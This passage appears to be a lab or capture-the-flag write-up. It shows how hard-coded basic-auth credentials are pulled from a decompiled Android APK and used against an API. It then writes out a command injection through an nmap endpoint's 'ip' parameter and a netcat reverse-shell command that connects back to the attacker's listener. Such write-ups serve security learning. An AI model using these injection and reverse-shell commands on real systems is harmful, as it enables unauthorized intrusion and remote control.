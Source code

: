 I tried installing the apk on an **AVD**(**Android Virtual Device**) hosted via Genymotion. It failed.

!["avd"](/Serial_2/L8-AhnXR_gool12Me8legOhPNnCM5XLGtQeLeutFX8edQd4QUBltzunAysJj_XnTKJeqN5cU7Bk-oGpDCMglEWgqa7FbYAwsV6q3XPUTZoP4dRvVRXk6KnCLHJPiZdPPhVxl4k-BiSRMprpH1Q.png)
_Failed installation on Genymotion AVD._

Alright then, we spin up JADX and reverse the apk.

Instinctively jumping to `Resources/resources.arsc/res/values/strings.xml`, I found a string token named `basic_auth`.

!["jadx"](/Serial_2/iB8ei9LOtdAVHXVOZ02R44hDg3H8-uDdN-tEUrtXKWXMd7bDADV6kti3eBVCN7BwVqbwxFakXwLUTPBtlQfiUzu95F5W8u8HQbYoFiNuDFfX3TY6X-wcTaBXm69pBpIlCUh3ASrtYRhdKX1zZw.png)
_strings.xml file of the apk._

```python
import base64
print(base64.b64decode("c2s0OmJKNiErbSUqJF0jeDc9TEE="))
```
`sk4:bJ6!+m%*$]#x7=LA`

We open postman to make a request to the endpoints we found on the website earlier, and try to use this decoded value as auth credentials.

We choose the authentication type as Basic Auth and enter:

Username: `sk4`

Password: `bJ6!+m%*$]#x7=LA`

!["basic_auth"](/Serial_2/l17DusDGH3kYb53rmjt7ks_KGstttN22t0oNq2uiDXfKBG1xLEPhxWpl1v1fhpdBfBlWAEk8H261mFg8HN9uLYsZ8dJ8qYovjOjP7AYiXIMRbfxfIlu55_--SFxHuYdNsPhX8afyKTMYC_mA7Q.dat)
_Request using credentials._

Voilà! We receive a response with status code `200 OK`.

Now, we provide the required parameter (as indicated in the response message). Moreover, piping outputs from commands into nmap is a fairly common technique used in automated recon scripts, bash jail escapes and creating vim shortcuts.

`GET` request to `192.168.1.10/api/nmap?ip=127.0.0.1 | ls -la`

Format: `VMIP/api/nmap?ip=127.0.0.1 | ls -la`

!["command_exec"](/Serial_2/uWwZIgawjVLXcTsItWyc46X8Y7CFF-fYQFEok2dQkem6GTlJk9aEvFQK0WAnBPM8MZs3f1nmNuwjDmsgjcMuPj5IJpzpalFrLaSMPqgmipBiI_ig7htTX243hwcWQnwMQEC53YuYnurwNdI9hg.dat)
_Command execution verified._

Thereafter, we try to spawn a reverse shell.

Start a listener on the host machine.

Run `nc -nlvp 4444`

Format: `nc -nlvp PORT`

And then try to connect to this listener via the VM.

Run `192.168.1.10/api/nmap?ip=127.0.0.1 | nc 192.168.1.6 4444 -e /bin/sh`

Format: `VMIP/api/nmap?ip=127.0.0.1 | nc LHIP PORT -e /bin/sh`
